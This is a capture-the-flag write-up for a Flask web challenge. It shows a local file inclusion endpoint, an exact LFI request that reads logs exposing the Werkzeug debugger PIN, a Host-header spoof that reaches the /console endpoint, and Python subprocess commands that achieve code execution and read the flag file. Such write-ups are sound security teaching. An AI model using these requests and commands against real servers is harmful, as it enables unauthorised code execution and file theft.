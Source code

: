 ### **Mola7ada Revenge Write-Up**

## discription 

mo7adata was mid i beet you solve this one :) , Revenge baby ;)

## flag 
CTF{machakil_f_ta7mil}

## Write-up 

After obtaining the zip file, I noticed the following line in the Dockerfile:

```dockerfile
CMD flask run --host=0.0.0.0 > /app/logs/logs.txt 2>&1
```

This command redirects the Flask application's output to `/app/logs/logs.txt`. On the host machine, the logs are saved in `./logs/logs.txt`.

During my analysis, I discovered a vulnerability in the following endpoint:

```python
@auth.route('/get_profile_pic')
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

This endpoint is vulnerable to **Local File Inclusion (LFI)**, which allows reading arbitrary files on the server. However, the flag file is randomized using the following command:

```dockerfile
RUN FLAG_NAME=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 12) && mv ./flag.txt "./${FLAG_NAME}_flag.txt"
```

This makes it difficult to guess the flag file's name directly.

---

### **Exploiting the LFI Vulnerability**

After some testing, I found that I could read the application logs using the LFI vulnerability:

```
http://192.168.11.113:5000/get_profile_pic?filename=./logs/logs.txt
```

The output revealed the following:

```
* Serving Flask app 'app.py' 
* Debug mode: on 
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead. 
* Running on all addresses (0.0.0.0) 
* Running on http://127.0.0.1:5000 
* Running on http://192.168.11.113:5000 
Press CTRL+C to quit 
* Restarting with stat 
* Debugger is active! 
* Debugger PIN: 630-138-255
```

The logs show that the Flask debugger is active, and the **Debugger PIN** is exposed. This is a critical finding because the debugger allows arbitrary code execution if accessed.

---

### **Accessing the Werkzeug Console**

I attempted to access the Werkzeug console at:

```
http://192.168.11.113:5000/console
```

However, I received the following error:

```
Bad Request
The browser (or proxy) sent a request that this server could not understand.
```

After two days of research and testing various attack vectors (including SSRF), I discovered that the `/console` endpoint is restricted to `localhost` and `127.0.0.1`. It is not accessible from external IP addresses.

---

### **Bypassing the Restriction**

To bypass this restriction, I modified the `Host` header in my HTTP request. By changing the `Host` from `192.168.11.113:5000` to `127.0.0.1`, I was able to access the Werkzeug console.

Here’s the modified request:

```
GET /console HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: __wzd7996cd05d8d38c9847ad=1737926290|efd2461c3eb9
Connection: keep-alive
```

This allowed me to access the Werkzeug console and execute arbitrary Python code.

---

### **Gaining Remote Code Execution (RCE)**

Using the Werkzeug console, I executed the following commands to enumerate the file system and retrieve the flag:

```python
>>> import subprocess
>>> print(subprocess.run("ls -la", shell=True, text=True, capture_output=True).stdout)
```

The output revealed the contents of the current directory, including the randomized flag file:

```
total 68
drwxr-xr-x 1 root root 4096 Jan 26 21:15 .
dr-xr-xr-x 1 root root 4096 Jan 26 21:15 ..
drwxrwxrwx 7 root root 4096 Jan 24 23:14 .git
drwxrwxrwx 3 root root 4096 Jan 24 23:14 .idea
drwxrwxrwx 5 root root 4096 Jan 24 23:14 .venv
-rw-rw-r-- 1 root root  733 Jan 26 04:04 08WrSq8rM2dL_flag.txt
-rw-rw-rw- 1 root root  346 Aug  9 23:09 Bloog.iml
-rw-rw-rw- 1 root root  787 Jan 26 21:15 Dockerfile
drwxrwxrwx 1 root root 4096 Jan 26 21:15 __pycache__
-rw-rw-rw- 1 root root  128 Jan 26 20:34 app.py
-rwxrwxrwx 1 root root  358 Jan 26 21:05 build.sh
drwxrwxrwx 1 root root 4096 Jan 26 20:20 instance
drwxrwxr-x 2 root root 4096 Jan 26 21:11 logs
drwxrwxrwx 4 root root 4096 Jan 24 23:14 migrations
-rw-rw-rw- 1 root root  101 Jan 25 23:58 requirements.txt
drwxrwxr-x 5 root root 4096 Jan 26 01:56 venv
drwxrwxrwx 1 root root 4096 Jan 24 23:14 website
```

Next, I read the contents of the flag file:

```python
>>> print(subprocess.run("cat 08WrSq8rM2dL_flag.txt", shell=True, text=True, capture_output=True).stdout)
```

The flag file contained the following message:

```
It's 5 AM, and this challenge has made me furious.
I spent all day trying to build a nice Werkzeug pin bypass challenge, 
but I found out that `/console` isn’t accessible from outside of localhost.

I tried so many things—one of them was an SSRF attempt to interact with the console and achieve RCE.

Honestly, this challenge feels mediocre; it could be solved in 5 minutes or even with ChatGPT.
Sorry for wasting your time, but if you’re curious about what I was trying to do, check out these resources :  
- https://werkzeug.palletsprojects.com/en/1.0.x/debug/       
- https://www.daehee.com/werkzeug-console-pin-exploit/    

Here is your flag:
CTF{machakil_f_ta7mil}
```

---

### **Conclusion**

This challenge highlighted the dangers of leaving the Flask debugger enabled in a production environment. By exploiting the LFI vulnerability and bypassing the Werkzeug console's IP restriction, I was able to achieve Remote Code Execution (RCE) and retrieve the flag.

**Note to the Developer: molzri3**  
This is the first time I’ve encountered a way to bypass the Werkzeug console's IP restriction. I plan to report this issue to the Werkzeug maintainers for further investigation. I hope you enjoyed playing this challenge as much as I did!

---

### **References**

- [Werkzeug Debugger Documentation](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
